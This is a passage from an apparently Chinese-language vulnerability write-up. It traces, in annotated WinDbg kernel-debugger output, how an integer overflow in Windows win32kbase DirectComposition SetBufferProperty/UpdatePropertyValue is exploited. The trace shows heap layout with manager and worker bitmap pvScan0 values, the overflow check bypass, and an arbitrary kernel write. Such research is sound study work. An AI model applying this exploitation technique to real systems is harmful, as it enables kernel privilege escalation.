 随后通过我们的布局，我们可以跟踪整个利用的过程，对比之前我对setbuffproperty-&gt;updatepropertyvalue过程的分析。

```
kd&gt; p
win32kbase!DirectComposition::CPropertyBagMarshaler::SetBufferProperty+0x38:
946f8670 83ff10          cmp     edi,10h
kd&gt; r edi//首先比较size大小，这里我们已经置为0x20
edi=00000020
……
//managerbitmap的地址是0x8c8e1000，workerbitmap的地址是0x8c8e3000
kd&gt; p
win32kbase!DirectComposition::CPropertyBagMarshaler::SetBufferProperty+0x42:
946f867a 51              push    ecx
kd&gt; dd b7580010 l5//可以看到szbuf的覆盖情况，其中+0x8h的地方是bitmap中pvscan0-0xc的值，+0xc是0x45
                                  // +0x10是workerbitmap的pvscan0
b7580010  71def72d 58ac0714 8c8e1024 00000045
b7580020  8c8e3030
kd&gt; r ecx
ecx=b7580010
……
kd&gt; p//漏洞触发
win32kbase!DirectComposition::CPropertyBagMarshaler::UpdatePropertyValue+0x12:
946f8254 83e80c          sub     eax,0Ch//integer overflow
kd&gt; p
win32kbase!DirectComposition::CPropertyBagMarshaler::UpdatePropertyValue+0x15:
946f8257 3bf0            cmp     esi,eax
kd&gt; r esi
esi=8c8e1024//比较的值是managerbitmap，由于整数溢出，所以这个值会比0xfffffff4小，可以通过判断
kd&gt; r eax
eax=fffffff4//integer overflow是个无符号数，极大值
……
kd&gt; p//与0x45比较，eax的值已经通过szbuf布局
win32kbase!DirectComposition::CPropertyBagMarshaler::UpdatePropertyValue+0x2a:
946f826c 83f845          cmp     eax,45h
kd&gt; p
win32kbase!DirectComposition::CPropertyBagMarshaler::UpdatePropertyValue+0x2d:
946f826f 7e37            jle     win32kbase!DirectComposition::CPropertyBagMarshaler::UpdatePropertyValue+0x66 (946f82a8)
kd&gt; r eax
eax=00000045
……
kd&gt; p//任意地址写！
win32kbase!DirectComposition::CPropertyBagMarshaler::UpdatePropertyValue+0x55eb8:
9474e0fa a5              movs    dword ptr es:[edi],dword ptr [esi]
kd&gt; r esi
esi=a42aca90
kd&gt; dd esi l1
a42aca90  8c8e3030
kd&gt; r edi
edi=8c8e1030
kd&gt; dd 8c8e1030 l1
8c8e1030  8c8e117c
```
